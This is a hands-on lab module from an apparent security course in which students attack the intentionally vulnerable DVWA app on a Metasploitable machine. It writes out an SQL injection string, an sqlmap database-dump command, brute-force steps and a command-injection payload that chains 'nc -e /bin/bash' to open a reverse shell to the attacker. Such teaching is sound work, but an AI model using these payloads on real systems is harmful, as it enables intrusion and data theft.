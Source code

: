 ```yaml
---
title: Hacking Web Applications
layout: module
---
```


# Hacking Web Applications

## Exercise 1: Recon with `gobuster`

`Gobuster` is a brute-force tool, written in Go and a more modern alternative to `Dirbuster`.

* URIs (directories and files) in web sites
* DNS subdomains
* Virtual hostnames on target web servers
* Open Amazon S3 buckets

Tools like `gobuster` use "wordlists", or a file that contains many (many!) words that are used to find directories, files, crack passwords, etc.

In Kali, you can see installed wordlists by opening a terminal and running `locate wordlists`. Additionally, we have cloned the SecLists Github repo to `/root/SecLists`:

> SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments, collected in one place. List types include usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and many more. The goal is to enable a security tester to pull this repository onto a new testing box and have access to every type of list that may be needed.

### Task 1

Metasploitable is "an intentionally vulnerable Ubuntu Linux virtual machine that is designed for testing common vulnerabilities." In the lab network, there is a Metasploitable machine reachable at `http://metasploitable`. The Metasploitable machine is running a web application called "DVWA" (Damn Vulnerable Web App) which also has gaping security holes we will exploit in these exercises. The DVWA web app is accessible at `http://metasploitable/dvwa`.

Try running `gobuster` on DVWA. You can use any wordlist you want-- there are some in `/root/SecLists` or `/usr/share/wordlists/dirbuster/`.

{% capture text %}
<pre>
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://metasploitable/dvwa/
</pre>
{% endcapture %}
{% include cheat.html text=text %}

## Exercise 3: Brute Forcing a Password using Burp Suite

In this exercise, we'll set up Burp Suite with Firefox, learn some Burp Suite basics, and brute force a password using Burp Suite's Intruder tool.

### Task 1

In your Kali machine, open `Burp Suite`. Since we're using the free Community Edition, you can only start a temporary project. When asked, select `Use Burp Defaults`.

> Note: it may take a minute for Burp Suite to start.

Burp Suite works by proxying network traffic between your browser and the web server. To use it properly, we need to configure a browser to send traffic through Burp Suite.

1. Open Firefox. Go to `about:preferences` -> General -> scroll to the bottom -> Network settings.
2. Click "Manual proxy configuration", and set the host to `127.0.0.1` and the port to `8080`. Check the "Use this proxy for HTTPS" box. Click OK.

![Firefox proxy settings](/img/firefox-proxy-settings.png){:width="50%" height="50%"}

3. Next, navigate to `http://metasploitable/dvwa` in Firefox. You should see the DVWA login page.
4. In Burp Suite, go to Proxy -> HTTP History. You should see the request that Firefox just sent, and the response.

![](/img/burp-suite-dvwa-request.png){:width="80%" height="80%"}

At this point, if you've never used Burp Suite before, just spend a minute clicking around the interface and reading-- it's overwhelming at first, so just try to get your bearing. Burp Suite has a lot of builtin tools.

### Task 2

1. Navigate to DVWA and login using username `admin` and password `password`.
2. On the left sidebar, click "DVWA Security", and set the security level to `Low`.
3. On the left sidebar, click "Brute Force." Attempt to login with `admin` and a dumb password like `1234`.
4. In Burp Suite, find the login request you just sent (it will be a `POST /vulnerabilities/brute`). Right click -> click "Send to Intruder".
5. Along the top tabs in Burp Suite, you should see "Intruder"-- it should be highlighted in orange because you just sent something new to it. Click the tab.
6. You should be in the "Positions" tab by default-- start here. At the bottom, it should say `0 payload positions`. If not, click `Clear` on the right side.
7. Highlight the password you entered (NOT the surrounding quotes), and click "Add". It will surround the password in a special character.
8. Go to the next tab, "Payloads". Here, we'll specify what words Burp Suite should try to use to log in. In "Payload Settings", click `Load ...` and choose a wordlist. I recommend using `/usr/share/wordlists/john.lst`.
9. Go to the last tab, "Settings". Scroll to "Grep - Match". Check the box that says "Flag result items with responses matching these expressions:". There's a good default list, but add "Welcome" to the list (we're cheating a bit here).

![](/img/burp-suite-flag-matches-option.png){:width="30%"}

10. Scroll down again to `Redirections`. Under "Follow redirections:", select `Always`.

11. At the top, click `Start Attack`. If you used `john.lst`, you should see pretty quickly that one of the passwords gave a result for "Welcome"... (hint: you already logged in with the admin password earlier...)

## Exercise X: Reflected XSS

In Firefox, navigate to `http://metasploitable/dvwa`, and click on `XSS reflected` in the left panel. Exploit the text input using XSS.

## Exercise X: Stored XSS



## Exercise X: SQL Injection

### Task 1

Navigate to **SQL Injection**. Enumerate users on the system with an SQL
injection.

{% capture text %}
<pre>
    a' or 'a' = 'a
</pre>
{% endcapture %}
{% include cheat.html text=text %}

### Task 2

Use SQLMap to dump the database

-   You'll need to copy your cookie from the browser
-   What RDMS is the target using?
-   Skip test payloads for other RDMSes
-   Which parameter is injectable?
-   What is Pablo Picasso's password?

{% capture code %}
    sqlmap --cookie="<cookie>" --url="http://metasploitable/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --string="surname" --dump
{% endcapture %}
{% include copy-paste.html title="SQLMap" code=code %}

## Exercise X: Command Injection

### Task 1

Navigate to **Command Execution**. Inject the command `id`

-   **\<star-wars-reference\> Use the source Luke!
    \</star-wars-reference\>**
-   **nano-Hint**: If ping returns an error, you won't see anything.
-   What user is PHP running as?

### Task 2

Spawn a [reverse
shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) using
Netcat.

### Task 2a

Start a listener using netcat from Kali:

{% capture code %}
nc -v -l -p 4444
{% endcapture %}
{% include copy-paste.html title="Create a listener" code=code %}

### Task 2b

Inject this command: `localhost && nc -e /bin/bash kali 4444`

-   This will start netcat on the remote host and connect back to you
    with a shell
-   It's normal not to have a prompt -- type commands as you normally
    would anyway

### Task 3

What is the uptime of the system?
